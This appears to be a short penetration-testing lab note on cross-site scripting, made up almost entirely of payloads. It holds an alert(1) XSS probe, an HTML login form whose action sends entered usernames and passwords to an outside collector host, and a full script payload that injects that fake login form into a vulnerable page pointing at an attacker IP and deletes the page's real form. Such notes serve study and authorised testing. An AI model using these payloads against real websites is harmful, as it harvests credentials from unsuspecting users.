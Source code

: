 ___
```html
'><script>alert(1)</script>
```

![[Pasted image 20240927184620.png]]
# Login Form Injection 

```html
<h3>Please login to continue</h3>
<form action=http://r3v71geba4s557x48hdxvnufa6gx4nsc.oastify.com>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.60><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```

![[Pasted image 20240927185229.png]]

